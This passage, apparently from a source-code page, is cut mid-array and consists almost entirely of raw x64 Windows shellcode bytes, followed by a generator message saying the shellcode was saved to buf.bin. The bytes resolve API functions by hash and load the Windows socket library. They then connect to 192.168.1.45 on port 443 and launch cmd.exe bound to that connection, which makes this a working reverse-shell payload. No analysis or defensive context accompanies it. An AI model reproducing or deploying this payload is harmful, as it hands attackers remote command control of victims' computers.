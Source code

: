 ```cmd
0x8b,0x09,0x4d,0x8b,0x49,0x10,0xeb,0x63,0x41,0x8b,0x49,0x3c,0x4d,0x31,0xff,0x41,0xb7,0x88,0x4d,0x01,
0xcf,0x49,0x01,0xcf,0x45,0x8b,0x3f,0x4d,0x01,0xcf,0x41,0x8b,0x4f,0x18,0x45,0x8b,0x77,0x20,0x4d,0x01,
0xce,0xe3,0x3f,0xff,0xc9,0x48,0x31,0xf6,0x41,0x8b,0x34,0x8e,0x4c,0x01,0xce,0x48,0x31,0xc0,0x48,0x31,
0xd2,0xfc,0xac,0x84,0xc0,0x74,0x07,0xc1,0xca,0x0d,0x01,0xc2,0xeb,0xf4,0x44,0x39,0xc2,0x75,0xda,0x45,
0x8b,0x57,0x24,0x4d,0x01,0xca,0x41,0x0f,0xb7,0x0c,0x4a,0x45,0x8b,0x5f,0x1c,0x4d,0x01,0xcb,0x41,0x8b,
0x04,0x8b,0x4c,0x01,0xc8,0xc3,0xc3,0x4c,0x89,0xcd,0x41,0xb8,0x8e,0x4e,0x0e,0xec,0xe8,0x8f,0xff,0xff,
0xff,0x49,0x89,0xc4,0x48,0x31,0xc0,0x66,0xb8,0x6c,0x6c,0x50,0x48,0xb8,0x57,0x53,0x32,0x5f,0x33,0x32,
0x2e,0x64,0x50,0x48,0x89,0xe1,0x48,0x83,0xec,0x20,0x4c,0x89,0xe0,0xff,0xd0,0x48,0x83,0xc4,0x20,0x49,
0x89,0xc6,0x49,0x89,0xc1,0x41,0xb8,0xcb,0xed,0xfc,0x3b,0x4c,0x89,0xcb,0xe8,0x55,0xff,0xff,0xff,0x48,
0x31,0xc9,0x66,0xb9,0x98,0x01,0x48,0x29,0xcc,0x48,0x8d,0x14,0x24,0x66,0xb9,0x02,0x02,0x48,0x83,0xec,
0x30,0xff,0xd0,0x48,0x83,0xc4,0x30,0x49,0x89,0xd9,0x41,0xb8,0xd9,0x09,0xf5,0xad,0xe8,0x2b,0xff,0xff,
0xff,0x48,0x83,0xec,0x30,0x48,0x31,0xc9,0xb1,0x02,0x48,0x31,0xd2,0xb2,0x01,0x4d,0x31,0xc0,0x41,0xb0,
0x06,0x4d,0x31,0xc9,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,0x4c,0x24,0x28,0xff,0xd0,0x49,0x89,0xc4,0x48,
0x83,0xc4,0x30,0x49,0x89,0xd9,0x41,0xb8,0x0c,0xba,0x2d,0xb3,0xe8,0xf3,0xfe,0xff,0xff,0x48,0x83,0xec,
0x20,0x4c,0x89,0xe1,0x48,0x31,0xd2,0xb2,0x02,0x48,0x89,0x14,0x24,0x48,0x31,0xd2,0x66,0xba,0x01,0xbb,
0x48,0x89,0x54,0x24,0x02,0xba,0xc0,0xa8,0x01,0x2d,0x48,0x89,0x54,0x24,0x04,0x48,0x8d,0x14,0x24,0x4d,
0x31,0xc0,0x41,0xb0,0x16,0x4d,0x31,0xc9,0x48,0x83,0xec,0x38,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,0x4c,
0x24,0x28,0x4c,0x89,0x4c,0x24,0x30,0xff,0xd0,0x48,0x83,0xc4,0x38,0x49,0x89,0xe9,0x41,0xb8,0x72,0xfe,
0xb3,0x16,0xe8,0x99,0xfe,0xff,0xff,0x48,0xba,0x9c,0x92,0x9b,0xd1,0x9a,0x87,0x9a,0xff,0x48,0xf7,0xd2,
0x52,0x48,0x89,0xe2,0x41,0x54,0x41,0x54,0x41,0x54,0x48,0x31,0xc9,0x66,0x51,0x51,0x51,0xb1,0xff,0x66,
0xff,0xc1,0x66,0x51,0x48,0x31,0xc9,0x66,0x51,0x66,0x51,0x51,0x51,0x51,0x51,0x51,0x51,0xb1,0x68,0x51,
0x48,0x89,0xe7,0x48,0x89,0xe1,0x48,0x83,0xe9,0x20,0x51,0x57,0x48,0x31,0xc9,0x51,0x51,0x51,0x48,0xff,
0xc1,0x51,0xfe,0xc9,0x51,0x51,0x51,0x51,0x49,0x89,0xc8,0x49,0x89,0xc9,0xff,0xd0};


Generated shellcode successfully saved in file buf.bin
```
